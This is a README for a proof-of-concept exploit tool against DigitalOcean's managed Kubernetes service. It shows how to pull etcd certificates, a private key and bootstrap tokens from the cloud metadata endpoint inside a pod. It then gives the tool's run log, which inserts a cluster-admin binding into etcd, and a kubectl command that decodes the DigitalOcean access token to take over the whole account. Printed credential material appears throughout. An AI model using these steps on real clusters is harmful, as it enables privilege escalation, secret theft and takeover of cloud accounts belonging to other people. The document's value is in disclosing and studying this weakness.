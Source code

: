 # DigitalOcean Pwner

This is a proof-of-concept tool to exploit a combination of weaknesses in the new Kubernetes managed service from DigitalOcean.

## Caveats

This tool is going to write arbitrary objects into your Kubernetes cluster's `etcd` backend. It _should_ be ok but there's every chance something could go wrong so be prepared for that. If you break something it's absolutely not my fault, this code is provided as-is and without warranty.

If something breaks, raise an issue and I'll see if I can fix the code to prevent future similar events.

## Installation

Download the binary release from the Releases tab above.

## Usage

You need the output of the DigitalOcean user-data in a file. There's a number of ways you could get this, if you have access to a pod you can use cURL:

```bash
~ $ curl -qs http://169.254.169.254/metadata/v1/user-data
#cloud-config
k8saas_role: kubelet
k8saas_master_domain_name: "aac71799-f33a-444d-89a8-b20a3441635e.k8s.ondigitalocean.com"
k8saas_bootstrap_token: "4b7ae52cd675200f0955f69163d4c13c72a3b4e6ed6fcfb84bcf34add6dfc865"
k8saas_proxy_token: "6cb9b9da7256fc4f4759847d73e1dec2a47807c8ed6287c0986038d415c981fb"
k8saas_ca_cert: "-----BEGIN CERTIFICATE-----\nMIIDJzCCAg+gAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln\naXRhbE9jZWFuMRowGAYDVQQDExFrOHNhYXMgQ2x1c3RlciBDQTAeFw0xODEyMjAx\nMDA2MjVaFw0zODEyMjAxMDA2MjVaMDMxFTATBgNVBAoTDERpZ2l0YWxPY2VhbjEa\nMBgGA1UEAxMRazhzYWFzIENsdXN0ZXIgQ0EwggEiMA0GCSqGSIb3DQEBAQUA[..]JO235eM7L\ne9ywg0QelxRTUjChNqC2QkE9H8YbqO5UmAma+ZxG0G71LOFU6nzardgNrOAd0VX9\nssOBlUJcyFBni9dE4wwNGMgg4ZJ8hZnqNGq9aKO5YxYexpRGvjs02XEqLQT6MhpC\nNOAS44LZ7QwHe37SoeIhq5mnFnaXYHobAjjKhprgTZS/oH80y9O9wOWqaVMiAGAD\ngm/xdELUeqItctGi9bsELWGzEAEj++90ysSTBSn3aEUnk1HCooEq5agvog==\n-----END CERTIFICATE-----\n"
k8saas_etcd_ca: "-----BEGIN CERTIFICATE-----\nMIIDJzCCAg+gAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln[..]lsczwKsQs1BAMDfYZGQ/KwO8RNxZ4Ll0H83/cLsEq5VE\nLOqJzev29a/Gd2cGShpMjWVVT6GruFZ4hgdGncA2WIEvAWiSKc+0CcrM2SYnGgzs\nOEpx1uudl7YvXNYgn4IxvHab2UVWlm60dI3tKL5CtY5fZS47iWL4kuoP3HlQtm8n\n/9ks1nkcQlXJo41ENCISrt04wZdMxyRtUaDjewJvebkvCjtwr0m0T9kHJw==\n-----END CERTIFICATE-----\n"
k8saas_etcd_key: "-----BEGIN RSA PRIVATE KEY-----\nMIIEpAIBAAKCAQEAuWXwbSO8Y9QtPxndGZUD5QHgLX5SnTz/9dKRcKhdHPvPDMkc\nK5kXKtWFmrK/4KunjLj9fX8s36sB0qe4dJrjPlVEZMOtfZUwlc+jLYSjxyYKtdmS\nA7wLxxV+beflo8x37A/0jyFl57efzmmNZ7T01TG4drt4eysr[..]n0YAe5xWaWOZ7e1xE4DqUbULeybNeBdLm/SJ+22dlmCgsphKeolzjWFeLKfg67Diw\n914gAC0CgYAP88QdhsOpW+Nzz5ddwjCK/o8cL7/nnORhf9TI7sPlYwNca3AEgR0w\n7jqbSvHJt8AIY4NSQaokB1yvealnaW1uTak6Ak0ote6TsO1xH+dRHH1eqVm55GtX\nKKkpKZcj6lFBLQ3ab5GxJA00D4yNinkDnxMC6tivdW2ZJgE1HAs/3A==\n-----END RSA PRIVATE KEY-----\n"
k8saas_etcd_cert: "-----BEGIN CERTIFICATE-----\nMIIEazCCA1OgAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln\naXRhbE9jZWFuMRowGAYDVQQDExFrOHNhYXMgQ2x1c3RlciBDQTAeFw0xODEyMjAx\nMDA4MDBaFw0zODEyMjAxMDA4MDBaMFkxCzAJBgNVBAYTAlVTMQswCQYDVQQIEwJO\nWTERMA8GA1UEBxMITmV3IFlvcmsxFTATB[..]JNzdzeIWqCR+H8dlu3mZHhJ6+PZr/mxQTaTbT7bJMHpO+iZqxFRBsNZ1hN\nczftZQXKqHgLsy+q4lh2H0YcCI1GJy5XrO5Yb0UWYGyAAQUrc4wc5HrN7DmPtDpe\n9axdb4C1fZtkj1MvjItaCWBDU5OzQGEsYLugbw3U2Q==\n-----END CERTIFICATE-----\n"
k8saas_overlay_subnet: "10.244.0.0/16"
k8saas_dns_service_ip: "10.245.0.10"
```

Save this output to a file on your local machine, either by copy/paste or output from kubectl cp/exec, etc.

In this example, I'll put it in a file called `user-data.txt`. Now run `dopwn exploit` with the `-f` parameter specifying the location of the `user-data.txt` file.

```bash
$ dopwn exploit -f user-data.txt
2018-12-20T10:29:56Z [ℹ]  read metadata from file: user-data.txt
2018-12-20T10:29:56Z [ℹ]  parsing metadata to get etcd creds
2018-12-20T10:29:56Z [ℹ]  writing etcd ca to file: etcd-ca.crt
2018-12-20T10:29:56Z [ℹ]  writing etcd cert to file: etcd.crt
2018-12-20T10:29:56Z [ℹ]  writing etcd key to file: etcd.key
2018-12-20T10:29:56Z [ℹ]  fetching kube-system default service account token from etcd at aac71799-f33a-444d-89a8-b20a3441635e.k8s.ondigitalocean.com:2379
2018-12-20T10:29:58Z [ℹ]  decoding serviceAccount
2018-12-20T10:29:58Z [ℹ]  fetching serviceAccountToken secret
2018-12-20T10:29:58Z [ℹ]  decoding secret
2018-12-20T10:29:58Z [ℹ]  writing API server CA cert file to ca.crt
2018-12-20T10:29:58Z [ℹ]  generating kubeconfig
2018-12-20T10:29:58Z [ℹ]  wrote kubeconfig
2018-12-20T10:29:58Z [ℹ]  generating clusterrolebinding
2018-12-20T10:29:58Z [ℹ]  encoding clusterrolebinding
2018-12-20T10:29:58Z [ℹ]  inserting clusterrolebinding into etcd......wish me luck......
2018-12-20T10:29:58Z [ℹ]  o_O
2018-12-20T10:29:58Z [ℹ]  You are now cluster-admin using the token in kubeconfig
2018-12-20T10:29:58Z [ℹ]  For an added bonus, grab the digitalocean secret and take over the DO account too:
2018-12-20T10:29:58Z [ℹ]  kubectl --kubeconfig=kubeconfig -n kube-system get secret digitalocean -o jsonpath='{.data.access-token}' | base64 --decode
```

That's it, you're done. You should now have a file called `kubeconfig` in the same directory which you can use to access the cluster.

```bash
$ kubectl --kubeconfig=kubeconfig auth can-i get secrets
yes
```


### Contributing

This is frankly pretty fugly code. I'm not particularly proud of it. I don't think it's very idiomatic, it's got a big monolithic func call and at the moment there's an unnecessary subcommand. But it works. And I'm hoping the weaknesses won't be around long enough to justify the refactoring. If you want to tidy it up I would love the input though. Just submit a PR.